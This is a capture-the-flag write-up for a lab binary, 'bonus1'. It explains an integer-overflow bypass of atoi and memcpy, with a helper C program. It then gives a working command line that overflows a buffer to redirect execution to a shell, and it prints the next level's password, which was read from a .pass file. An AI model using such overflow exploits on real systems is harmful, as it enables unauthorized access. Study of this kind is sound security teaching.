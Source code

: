 # Bonus1

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./bonus1 
  Segmentation fault (core dumped)
  $> ./bonus1 4
  Segmentation fault (core dumped)
  $> ./bonus1 4 2
```

> Seems like this program want us to input two arguments.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). This time we need to exploit the overflow property of `atoi()` to give us more bytes to copy with `memcpy()`. As seen in the analysis, the buffer has an offset of **56** bytes but we need to pass the check which need our input to be less than **10**. In order to do this, we need to find a negative number that by underflowing gives back a large enough positive number.

```C
#include <stdio.h>

int main(void) {
	int input = 0;

	for (int result = 0; result <= 0 || result > 64; input--) {
		result = input * 4;
	}

	printf("input = %d\n", input);
}
```

> This little program outputs us a potential input which is **-1073741809** which gives us **60** after the multiplication and underflow (**56** offset bytes + **4** bytes for a potential address).

Now, all we have to do is to find an address (`0x08048482`) to re-route the program to spawn a shell since there is a built-in way to do so.

```shell
  $> ./bonus1 -1073741809 $(python -c "print '\x90' * 56 + '\x08\x04\x84\x82'[::-1]")
  $ cat /home/user/bonus2/.pass
  579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

So next user credentials pair is `bonus2:579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`.

Check [here](./source.c) for reproduction source-code of this binary.